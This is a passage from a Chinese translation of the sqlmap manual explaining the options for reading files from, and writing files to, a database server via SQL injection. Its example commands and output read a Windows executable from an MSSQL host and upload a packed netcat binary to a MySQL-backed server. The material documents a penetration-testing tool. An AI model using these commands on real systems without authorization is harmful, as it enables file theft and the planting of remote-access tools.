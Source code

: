 ## 访问文件系统

### 读取数据库服务器文件系统文件

选项: `--file-read`

当后端数据库为 MySQL，PostgreSQL 或者 Microsoft SQL Server，并且当前会话用户拥有对数据库特定功能和相关架构的特性利用的权限时，sqlmap 能够直接读取后端文件系统中文件的内容。文件可以是文本文件类型或者二进制文件类型，sqlmap 都能够正确地处理相关文件类型。

这些技术的相关详情可见白皮书 [通过高级 SQL 注入，对操作系统进行完全控制](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857).

下面是以 Microsoft SQL Server 2005 为目标，获取二进制文件的例子：

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?nam\
e=luther" --file-read "C:/example.exe" -v 1

[...]
[hh:mm:49] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2000
web application technology: ASP.NET, Microsoft IIS 6.0, ASP
back-end DBMS: Microsoft SQL Server 2005

[hh:mm:50] [INFO] fetching file: 'C:/example.exe'
[hh:mm:50] [INFO] the SQL query provided returns 3 entries
C:/example.exe file saved to:    '/software/sqlmap/output/192.168.136.129/files/
C__example.exe'
[...]

$ ls -l output/192.168.136.129/files/C__example.exe 
-rw-r--r-- 1 inquis inquis 2560 2011-MM-DD hh:mm output/192.168.136.129/files/C_
_example.exe

$ file output/192.168.136.129/files/C__example.exe 
output/192.168.136.129/files/C__example.exe: PE32 executable for MS Windows (GUI
) Intel 80386 32-bit
```

### 向数据库服务器的文件系统上传文件

文件: `--file-write` and `--file-dest`


当后端数据库为 MySQL，PostgreSQL 或者 Microsoft SQL Server，并且当前会话用户拥有对数据库特定功能和相关架构的特性利用的权限时，sqlmap 能够向后端文件系统上传一个本地文件。文件可以是文本文件类型或者二进制文件类型，sqlmap 都能够正确地处理相关文件类型。

这些技术的相关详情可见白皮书 [通过高级 SQL 注入，对操作系统进行完全控制](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857).

下面是以 MySQL 为目标，向服务器提交一个二进制 UPX 制式压缩的文件：

```
$ file /software/nc.exe.packed 
/software/nc.exe.packed: PE32 executable for MS Windows (console) Intel 80386 32
-bit

$ ls -l /software/nc.exe.packed
-rwxr-xr-x 1 inquis inquis 31744 2009-MM-DD hh:mm /software/nc.exe.packed

$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" -\
-file-write "/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1

[...]
[hh:mm:29] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003 or 2008
web application technology: ASP.NET, Microsoft IIS 6.0, ASP.NET 2.0.50727
back-end DBMS: MySQL >= 5.0.0

[...]
do you want confirmation that the file 'C:/WINDOWS/Temp/nc.exe' has been success
fully written on the back-end DBMS file system? [Y/n] y
[hh:mm:52] [INFO] retrieved: 31744
[hh:mm:52] [INFO] the file has been successfully written and its size is 31744 b
ytes, same size as the local file '/software/nc.exe.packed'
```
